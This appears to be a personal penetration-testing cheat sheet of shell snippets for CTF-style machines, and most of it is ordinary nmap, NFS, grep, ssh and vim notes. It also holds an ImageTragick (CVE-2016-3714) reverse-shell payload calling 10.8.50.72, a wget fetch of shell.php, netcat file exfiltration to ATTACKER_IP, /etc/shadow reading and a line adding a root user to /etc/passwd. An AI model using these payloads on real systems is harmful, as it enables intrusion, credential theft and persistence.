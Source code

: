 [back](../README.md)
#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```
---
#### scan from 1 to 100 ports with nc
```sh
for i in {1..100};do nc $IP $i;echo "";done
```
---
#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
---

#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
echo "11 00 34 5f" | xxd -r -p #from bytes to letters

`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`

cat ./-

file */{.,}* #every type of file in folder
du -b -a | grep 1033 #size of file
sort data.txt | uniq -u #uniq lines

cat .download.dat | xxd -r -p #like strings
```

---
#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```
---
#### Decompress a gzip file:
```sh
gzip -d file.gz
```
---
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```
---
#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```
---
#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
---
#### NFS share
```
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```

#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```
---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

---
#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"             # Recursively search for lines
grep -n                      # show numbers of lines
grep -i                      # do not care abuot regex
grep -c                      # how many times
grep linux * -r              # recursive  in all files
# точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#'                      # begins with
'^$'                         # пустые строки
-e '^(#|$)'                  # начинается или с # или с $(пустая строка)
grep -e 'colou?r'            # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root'               # only word root, not asdrootas
\grep                        # unalias
-A5                          # five line after the math
-B5                          # before
-C5                          # before and after
-e '[0-9]{5,6}/tcp' file.txt # от 5 до 6 цифр от 0 до 9
-E '[0-9]$'                  # number at the end of line
-E '\s*'                     # space or tab 
+                            # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### ftp
```
ftp -A $IP #connect anon

prompt off
mget * #download all files
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### magic numbers
png
```
89504E470D0A1A0A
```
gif
```
GIF87a    474946383761
GIF89a    474946383961
```

#### mv multiple files
```
mv -t DESTINATION file1 file2 file3
```

---

#### run shell as other user
```
sudo -u user bash
```
---
#### shells
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
---
